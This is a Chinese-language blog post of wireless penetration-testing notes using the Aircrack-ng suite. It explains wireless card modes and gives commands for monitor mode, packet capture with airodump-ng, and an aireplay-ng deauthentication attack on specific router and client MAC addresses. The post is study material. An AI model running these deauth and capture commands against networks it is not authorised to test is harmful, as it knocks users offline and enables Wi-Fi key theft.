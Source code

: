 ```yaml
---
title: "无线渗透笔记"
date: 2019-07-14 23:51:41
urlname: wireless-pentest-note
categories: 信息安全
tags:
  - Wireless
  - Kali Linux
  - Pentest
---
```


{% noteblock quote cyan %}

使用 Aircrack-ng 套件进行无线攻击测试。

{% endnoteblock %}

<!-- more -->

## 无线监听

### 技术原理

#### 无线网卡的 4 种工作模式

- Managed：用于设备与 AP 直接连接， **无线网卡的驱动程序依赖无线 AP 管理整个通信过程。**

- Ad hoc：当你的网络由**互相直连的设备组成**时，就使用这个模式。在这个模式中，无线通信双方共同承担 WAP 的职责。

- Master：主模式，允许无线网卡使用特制的驱动程序和软件工作，作为其他设备的 WAP。

- Monitor：监听模式，停止收发数据，监听无线数据包。

### 执行步骤

#### 切换为监听模式

- 使用 Airmon-ng

  ```shell
  iwconfig
  airmon-ng start wlx70f11c280f23	# airmon-ng start wlan0
  ```

- 关闭 Network Manager

  ```shell
  service network-manager stop
  ```

- 开启 Network Manager

  ```shell
  service network-manager restart
  ```

#### 开启监听

- 使用 Airodump-ng

  ```shell
  airodump-ng wlan0mon
  ```

#### 捕获数据

- Wireshark：选择监听网卡捕获数据

- Airodump-ng

  ```shell
  airodump-ng -c 1 wlan0mon -w data	# -c信道 -w输出目录名
  ```

## WiFi Crack

### 开启监听

```shell
airmon-ng start wlan0
```

### 扫描信号

```shell
airodump-ng wlan0mon
```

### 选定 Wi-Fi 监听

```shell
airodump-ng wlan0mon -c 11 --bssid BC:46:99:3D:66:D6 -w doc # -w指定生成的文件名 -c指定信道 --bssid指定路由器的MAC地址
```

### 攻击

```shell
aireplay-ng -0 50 -a E2:A5:3E:6B:F7:21 -c 44:C3:46:40:7E:5D   wlan0mon # -0指定发包的数量 -a指定路由器的MAC地址  -c指定连接的客户端的MAC地址
```
